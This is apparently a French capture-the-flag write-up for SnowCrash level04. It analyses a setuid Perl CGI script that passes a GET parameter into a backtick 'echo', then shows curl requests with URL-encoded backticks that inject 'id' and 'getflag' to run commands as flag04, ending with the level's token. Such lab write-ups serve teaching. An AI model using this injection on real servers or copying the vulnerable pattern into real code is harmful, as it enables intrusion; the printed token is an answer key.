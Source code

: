 # level04
## Observations
Nous disposons encore une fois d'un excutable dans le home directory, appelé: `level04.pl`.
Comme dans le level précédent, il dispose d'un setuid bit pour l'execution qui executera
ce script en tant qu'utilisateur `flag04` (`ls -l`).
Il s'agit d'un script perl, et nous pas d'un binaire, il est donc lisible en clair.
Nous n'avons pas les droits d'ecriture.

## Analyse du script

```sh
level04@SnowCrash:~$ cat -n level04.pl
     1	#!/usr/bin/perl
     2	# localhost:4747
     3	use CGI qw{param};
     4	print "Content-type: text/html\n\n";
     5	sub x {
     6	  $y = $_[0];
     7	  print `echo $y 2>&1`;
     8	}
     9	x(param("x"));
```

Le _sha-bang_, ligne 1, nous confirme que le binaire sera executé avec l'interpreteur
perl.

La deuxième ligne est un commentaire, elle nous donne un indice sur le port utilisé `4747`.

La troisième ligne, `use CGI qw{param};`, importe la subroutine (fonction perl) `param` de la class `CGI`,
nous permettant de récupéré un paramètre de la méthode HTTP `GET` (voir [ici](http://perl.mines-albi.fr/ModulesFr/CGI.html#obtenir%20la%20valeur%20ou%20les%20valeurs%20d'un%20seul%20param%C3%A8tre%20nomm%C3%A9)).
> **Note**: _CGI_ (Common Gateway Interface), nous permet de mettre en place un serveur HTTP
> basique, on supposera qu'il sera ouvert sur le port 4747 après le run du programme.

La 4e ligne, indique le `Content-Type` (balise http) de la page renvoyé.

De la ligne 5 à 7, nous avons la définition d'une subroutine (mot clef `sub` - Fonction perl).
- Cette subroutine prend un argument `$_[0]` (comme dan les scripts shell les arguments vont de 0 à 9 et
sont stocké dans une liste).
- Cet argument est stocké  dans la variable `$y`
- Enfin à la variable `$y` est utilisé avec echo: `echo $y 2>&1`

La dernière ligne est le point d'entré du programme la subroutine `x` définit précédement est
appelé avec l paramètre `GET`, `x`.

> **Note:** Pour la syntaxe perl, je me suis basé sur le cours [suivant](https://www.perltutorial.org/introduction-to-perl/).
> Pour CGI, sur [ette doc](http://perl.mines-albi.fr/ModulesFr/CGI.html).

On remarque également qu'un serveur est bien lancé après l'interpretation du
programme (`perl level04.pl`).

En effet, la commande:
```sh
curl localhost:4747
```

Ne nous renvoie pas d'erreur.

## Résolution
Ainsi tout comme le level précédent, je cherche à injecter la commande `getflag`
lors de l'interpretation avec l'utilisateur `flag04`, de ce script.

> **Note**: le caractère '\`' peut nous permettre de faire en sorte qu'echo affiche
> le résultat d'une commande et non la commande en tant que telle:
```sh
level04@SnowCrash:~$ echo pwd
pwd
level04@SnowCrash:~$ echo `pwd`
/home/user/level04
```

On essaie, dans un  premier temps de voir si l'on peut injecter du contenu via
la variable `x` d'une requête `GET`:
```sh
level04@SnowCrash:~$ curl localhost:4747?x=hello
hello
```

Essayons maintenant de passe une commande id:

> **Note**: Il faudra encoder le caractère '\`', pour eviter que la commande soit
> interpreter dans l'URL par l'utilisateur courant, `level04`.
> Pour faire cela, on a la synitaxe suivante: `%<hexadecimal_ASCII>`.
> L'ascii en hexa pour le caractère '\`' est 60. On a donc `%60`.

```sh
level04@SnowCrash:~$ curl localhost:4747?x=%60id%60
uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
```

On a donc un serveur HTTP qui tourne bien avec l'utilisateur `flag04`, et qui nous
permet d'injecter du code :)

On injecte la commande `getflag`:
```sh
level04@SnowCrash:~$ curl localhost:4747?x=%60getflag%60
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

J'obtiens le flag et je peux passé au level suivant !
